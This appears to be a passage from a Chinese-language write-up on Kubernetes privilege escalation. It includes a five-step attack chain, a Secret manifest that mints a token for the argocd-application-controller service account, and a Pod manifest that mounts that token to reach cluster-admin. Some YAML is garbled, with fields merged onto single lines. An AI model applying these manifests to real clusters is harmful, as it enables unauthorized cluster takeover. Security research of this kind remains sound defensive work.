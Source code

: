 ```plain
apiVersion: v1
kind: Secret
metadata:
 name: research-argo-token
 annotations:k8s.io/service-account.name: "argocd-application-controller"
 type: k8s.io/service-account-token
```

假设攻击者在枚举阶段获得的所有 token 都可以用来 create 和 list "服务帐户"(service accounts)。在这种情况下，攻击者可以为所有的"服务帐户"(service accounts) 创建出额外的 secrets，并利用它们进行身份验证，从而有效地赋予它们任何的"服务帐户"的“权限”（这就是为它们创建出 secrets 的原因）。

给这个名为`argocd-application-controller`的服务帐户创建出的那个 secret，为该服务账户提供了“集群管理”(cluster-admin) 的权限。

### k8s Pod

k8s 有很多方法能创建出 1 个 pod。各种 pod 创建方法被称为“工作负载资源”( Workload Resources)。这些“工作负载资源”( Workload Resources) 包括 Pods、Deployments、ReplicaSets、DaemonSets、Jobs、CronJobs 和 ReplicationControllers。

如果 "服务帐户令牌"(Service Account Tokens) 有权限去创建多个“工作负载资源”( Workload Resources) 中的任何一个资源，这就是攻击者可以尝试权限提升的另一种方式。

当攻击者创建 1 个 pod 时，他们可以向其中添加 privileged flag，从 pod 中删除所有“安全保护措施”，并让攻击者有权访问 host 的文件系统。攻击者还可以指定他们想用的那一个"服务账户"，让 pod 执行各种命令，例如反弹 shell，或者为 pod 指定一个恶意映像。

从 k8s Pod 开始，拿下集群管理的步骤如下

```plain
1.攻击者获得可以创建 pod 的 sa（如果 pod 可以在 kube-system 命名空间里创建就更好了）

2.使用指定的高权限"服务账户"创建 Pod

3.有执行权的攻击者进入 pod 抓取令牌，或让 pod 运行其他命令

4.攻击者使用新 token 进行身份验证

5.集群管理
```

创建具有以下配置的 pod 会提供集群管理员，因为它使用 argocd-application-controller"服务账户"并挂载其令牌。

Pod. yaml 配置，使用了高权限的"服务账户"：

```plain
apiVersion: v1 kind: Pod metadata:
creationTimestamp: null
labels:
run: research-pod
name: research-pod
spec:
serviceAccountName: argocd-application-controller automountServiceAccountToken: true
containers:
- image: nginx
name: research-pod
resources: {}
dnsPolicy: ClusterFirst
restartPolicy: Always
status: {}
```
